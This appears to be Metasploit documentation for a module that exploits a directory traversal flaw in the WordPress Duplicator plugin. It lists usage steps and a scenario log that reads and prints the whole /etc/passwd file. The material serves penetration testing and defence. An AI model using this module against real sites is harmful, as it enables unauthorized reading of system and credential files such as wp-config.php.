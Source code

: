 ## Vulnerable Application
The issue is being actively exploited, and allows attackers to download arbitrary files, such as the `wp-config.php` file.
This module exploits an unauthenticated directory traversal vulnerability in WordPress plugin "Duplicator" version 1.3.24-1.3.26,
allowing arbitrary file read with the web server privileges.

Duplicator [Changelog](https://snapcreek.com/duplicator/docs/changelog/)

Vulnerable version: [duplicator.1.3.24.zip](https://downloads.wordpress.org/plugin/duplicator.1.3.24.zip),
[duplicator.1.3.26.zip](https://downloads.wordpress.org/plugin/duplicator.1.3.26.zip)

## Verification Steps

1. Start `msfconsole`
1. `use auxiliary/scanner/http/wp_duplicator_file_read`
1. Set the `RHOSTS`
1. Set the `RPORT`
1. Run the exploit: `run`


## Options

## Scenarios

### Ubuntu 20.04 running WordPress 5.6, Duplicator 1.3.26

```
msf > use auxiliary/scanner/http/wp_duplicator_file_read
msf auxiliary(scanner/http/wp_duplicator_file_read) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf auxiliary(scanner/http/wp_duplicator_file_read) > set rport 8080
rport => 8080
msf auxiliary(scanner/http/wp_duplicator_file_read) > set FILEPATH /etc/passwd
FILEPATH => /etc/passwd
msf auxiliary(scanner/http/wp_duplicator_file_read) > set DEPTH 5
DEPTH => 5

msf auxiliary(scanner/http/wp_duplicator_file_read) > run

[*] Downloading file...

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:110::/run/uuidd:/usr/sbin/nologin
avahi-autoipd:x:106:111:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
rtkit:x:109:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
lightdm:x:110:115:Light Display Manager:/var/lib/lightdm:/bin/false
cups-pk-helper:x:111:118:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:112:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
whoopsie:x:113:119::/nonexistent:/bin/false
kernoops:x:114:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:115:121::/var/lib/saned:/usr/sbin/nologin
pulse:x:116:122:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:117:124:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
colord:x:118:125:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:119:7:HPLIP system user,,,:/var/run/hplip:/bin/false
debian-tor:x:120:126::/var/lib/tor:/bin/false
iodine:x:121:65534::/var/run/iodine:/usr/sbin/nologin
thpot:x:122:65534:Honeypot user,,,:/usr/share/thpot:/dev/null
postfix:x:123:128::/var/spool/postfix:/usr/sbin/nologin
nm-openvpn:x:124:130:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
statd:x:125:65534::/var/lib/nfs:/usr/sbin/nologin
sshd:x:126:65534::/run/sshd:/usr/sbin/nologin
nm-openconnect:x:127:131:NetworkManager OpenConnect plugin,,,:/var/lib/NetworkManager:/usr/sbin/nologin
geoclue:x:128:135::/var/lib/geoclue:/usr/sbin/nologin
nxpgsql:x:1001:1001:NeXpose PostgreSQL User:/opt/rapid7/nexpose/nsc/nxpgsql:/bin/sh
mysql:x:129:136:MySQL Server,,,:/nonexistent:/bin/falselsadm:x:999:999:lsadm:/:/sbin/nologin
jenkins:x:131:138:Jenkins,,,:/var/lib/jenkins:/bin/bash
libvirt-qemu:x:64055:139:Libvirt Qemu,,,:/var/lib/libvirt:/usr/sbin/nologin
libvirt-dnsmasq:x:132:142:Libvirt Dnsmasq,,,:/var/lib/libvirt/dnsmasq:/usr/sbin/nologin
test:x:1002:1003:,,,:/home/test:/bin/bash
ftp:x:133:143:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
gdm:x:134:144:Gnome Display Manager:/var/lib/gdm3:/bin/fals

[+] File saved in: /root/.msf4/loot/20201211005722_default_13.250.118.98_duplicator.trave_383073.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
